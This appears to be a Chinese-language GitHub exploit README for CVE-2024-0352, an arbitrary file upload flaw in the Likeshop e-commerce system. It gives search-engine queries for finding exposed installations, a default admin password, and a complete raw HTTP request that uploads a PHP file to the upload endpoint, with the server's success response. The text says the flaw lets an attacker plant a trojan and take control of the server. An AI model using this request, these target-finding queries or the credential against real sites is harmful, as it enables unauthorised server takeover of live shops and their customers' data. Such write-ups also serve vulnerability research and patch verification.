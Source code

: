 # CVE-2024-0352

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Likeshop任意文件上传



## 漏洞描述

Likeshop是一个100%开源免费的B2B2C多商户商城系统，支持官方旗舰店，商家入驻，平台抽佣+商家独立结算，统一下单+订单拆分等功能。该产品存在任意文件上传，攻击者可通过此漏洞上传木马获取服务器权限。

## 影响版本

```python
version<= 2.5.7.20210311
```

## 网络空间测绘语法

### FOFA

```bash
icon_hash="874152924”
```

### 鹰图

```bash
web.icon=="b2e68d0acf5b3117f88421799920ab98”
```

### 夸克

```bash
favicon: "b2e68d0acf5b3117f88421799920ab98”
```

## 漏洞复现

### 弱口令

**账号：**admin **密码：**123456

![Untitled](image/Untitled.png)

![Untitled](image/Untitled%201.png)

### Exp

**Request 包**

```python
POST /api/file/formimage HTTP/1.1
Host: xxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 206

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="file";filename="phpinfo.php"
Content-Type: application/x-php

<?php phpinfo();?>
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

**response 包**

```python
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 18 Jan 2024 01:26:18 GMT
Content-Type: application/json; charset=utf-8
Connection: keep-alive
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: Authorization, Sec-Fetch-Mode, DNT, X-Mx-ReqToken, Keep-Alive, User-Agent, If-Match, If-None-Match, If-Unmodified-Since, X-Requested-With, If-Modified-Since, Cache-Control, Content-Type, Accept-Language, Origin, Accept-Encoding,Access-Token,token
Access-Control-Allow-Methods: GET, POST, PATCH, PUT, DELETE, post
Access-Control-Max-Age: 1728000
Access-Control-Allow-Credentials: true
Content-Length: 233

{"code":1,"msg":"上传文件成功","data":{"url":"http:\/\/xxxxxxxxxxx\/uploads\/user\/xxxxxxxxxxxx.php","base_url":"uploads\/user\/xxxxxxxxxxxx.php","name":"phpinfo.php"},"show":0,"time":"0.086435"}

```

![Untitled](image/Untitled%202.png)
